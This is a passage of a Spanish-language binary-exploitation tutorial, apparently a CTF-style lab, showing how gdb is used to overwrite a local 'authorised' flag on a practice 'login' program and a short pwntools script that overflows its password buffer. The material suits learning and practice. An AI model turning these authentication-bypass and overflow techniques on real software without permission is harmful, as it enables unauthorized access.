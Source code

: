 Ejecutamos el programa con `run` e introducimos una contraseña de prueba, por ejemplo `aaaa`:

```gdb
Enter admin password: 
test
Incorrect Password!
```

Ahora parará en el *break point*, permitiendonos ver el valor del registro que mencionamos antes:

```gdb
x $ebp - 0xc
```
```gdb
0xffffd07c:	0x00000000
```

Vemos que el valor del registro es `0` (en hexadecimal). Vamos a cambiarlo a `1`, debemos utilizar la dirección del registro, ya que `ebp - 0xc` guarda la dirección de dicho registro:

```gdb
set *0xffffd07c = 1
```

Si volvemos a mirar `ebp - 0xc`, veremos que ahora vale `1`:

```gdb
x $ebp - 0xc
```
```gdb
0xffffd07c:	0x00000001
```

Si continuamos la ejecución con `c`, veremos que ahora nos permitirá el acceso incluso sin haber proporcionado la contraseña correcta:

```gdb
Continuing.
Successfully logged in as Admin (authorised=1) :)
```


#### Script

Para practicar scripting podemos crear un script simple en python utilizando la librería [[pwntools]], que explote la vulnerabilidad:

```python
#!/bin/python3
from pwn import *

#Start binary
io = process('./login')    #En caso de ser un servidor remoto sería remote()

#Send string to overflow buffer
io.sendlineafter(b':', b'aaaaaaa')    #Manda la linea despues de detectar el prompt (:)

#Receive output
print(io.recvall().decode())
```
